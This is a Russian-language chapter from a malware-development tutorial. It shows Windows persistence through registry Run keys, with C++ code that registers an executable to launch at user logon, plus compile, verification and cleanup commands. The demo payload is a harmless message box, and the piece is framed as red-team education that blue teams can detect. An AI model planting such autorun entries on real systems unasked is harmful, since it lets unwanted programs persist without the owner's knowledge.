\newpage
\subsection{67. Разработка вредоносного ПО: закрепление (persistence) - часть 1. Ключи автозапуска реестра. Пример на C++.}

الرَّحِيمِ الرَّحْمَٰنِ للَّهِ بِسْمِ 

{width="80%"}    

Этот раздел открывает главу о техниках и трюках закрепления вредоносного ПО в Windows.    

Сегодня я расскажу о результате собственного исследования "классического" трюка закрепления: ключей автозапуска в реестре.    

### ключи автозапуска

Добавление записи в "ключи автозапуска" в реестре приведёт к выполнению указанного приложения при входе пользователя в систему. Эти приложения будут выполняться в контексте пользователя и иметь уровень разрешений, соответствующий его учётной записи.    

Следующие ключи автозапуска создаются в Windows по умолчанию:    

`HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run`    

{width="80%"}    

`HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce`    

{width="80%"}    

`HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run`    

{width="80%"}    

> Обратите внимание, что это может использоваться как один из способов анти-VM (VirtualBox).    

`HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunOnce`    

{width="80%"}    

Злоумышленники могут использовать эти конфигурационные пути для запуска вредоносного ПО и обеспечения его закрепления после перезагрузки системы. Они также могут маскировать записи в реестре, делая их похожими на легитимные программы.    

### практический пример

Рассмотрим практический пример. Допустим, у нас есть *"вредоносное ПО"* `hack.cpp`:   

```cpp
/*
meow-meow messagebox
author: @cocomelonc
*/
#include <windows.h>

int WINAPI WinMain(HINSTANCE hInstance, 
HINSTANCE hPrevInstance, LPSTR lpCmdLine, 
int nCmdShow) {
  MessageBoxA(NULL, "Meow-meow!","=^..^=", MB_OK);
  return 0;
}
```

Скомпилируем его:   

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe \
-mwindows -I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants \
-static-libstdc++ -static-libgcc -fpermissive
```

{width="80%"}    

Сохраним его в папку `Z:\\2022-04-20-malware-pers-1\`:    

{width="80%"}    

Теперь создадим скрипт `pers.cpp`, который создаст ключи реестра для автозапуска `hack.exe` при входе в Windows:    

```cpp
/*
pers.cpp
windows low level persistense 
via start folder registry key
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2022/04/20/malware-pers-1.html
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;
  // malicious app
  const char* exe = "Z:\\2022-04-20-malware-pers-1\\hack.exe";

  // startup
  LONG res = RegOpenKeyEx(HKEY_CURRENT_USER, 
  (LPCSTR)"SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run", 
  0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // create new registry key
    RegSetValueEx(hkey, (LPCSTR)"hack", 0, REG_SZ, 
    (unsigned char*)exe, strlen(exe));
    RegCloseKey(hkey);
  }
  return 0;
}
```

Как видите, логика здесь самая простая. Мы просто добавляем новый ключ в реестр. Ключи реестра можно добавлять через терминал в ключи автозапуска для обеспечения закрепления, но так как я люблю писать код, я хотел показать, как сделать это с помощью нескольких строк кода.    

### демонстрация

Скомпилируем наш скрипт `pers.cpp`:   

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

{width="80%"}    

Сначала проверим ключи реестра на машине жертвы:    

```powershell
reg query "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /s
```

{width="80%"}    

Затем запускаем `pers.exe` и проверяем снова:   

```powershell
.\pers.exe
reg query "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /s
```

{width="80%"}    

Как видите, новый ключ добавлен, как и ожидалось.    
Теперь проверим всё в действии: выйдем из системы и войдём снова:    

{width="80%"}    

{width="80%"}    

{width="80%"}    

Pwn! Всё работает идеально :)    

После завершения эксперимента удаляем ключи:    

```powershell
Remove-ItemProperty -Path \
"HKCU:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" \
-Name "hack"
reg query \
"HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /s
```

{width="80%"}    

### Windows 11

Этот метод также работает на `Windows 11`:    

{width="80%"}    

{width="80%"}    

{width="80%"}    

{width="80%"}    

{width="80%"}    

И очистка системы:    

{width="80%"}    

### Заключение

Создание ключей реестра для выполнения вредоносного приложения во время входа в Windows - один из старейших трюков в арсенале красных команд. Различные злоумышленники и известные инструменты, такие как Metasploit, Powershell Empire, предоставляют эту возможность, поэтому опытные специалисты синих команд смогут выявить такую вредоносную активность.

[RegOpenKeyEx](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regopenkeyexa)    
[RegSetValueEx](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regsetvalueexa)    
[RegCloseKey](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regclosekey)    
[Remove-ItemProperty](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.management/remove-itemproperty?view=powershell-7.2)    
[reg query](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/reg-query)    
[исходный код на github](https://github.com/cocomelonc/2022-04-20-malware-pers-1)    
